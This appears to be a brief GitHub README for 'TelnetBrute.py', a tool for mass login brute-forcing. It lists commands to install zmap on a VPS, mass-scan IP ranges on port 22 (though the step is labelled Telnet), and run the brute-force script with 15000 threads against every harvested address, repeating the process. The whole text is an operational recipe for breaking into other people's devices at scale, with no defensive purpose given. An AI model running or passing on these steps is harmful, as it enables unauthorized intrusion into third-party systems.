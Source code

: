 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

zmap -p22 -o mfu.txt -w Legend.lst 

- Bruteforce (Repeat The Process)

1- ulimit -n 999999

2- python TelnetBrute.py mfu.txt 15000 test.txt


<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lol.png">



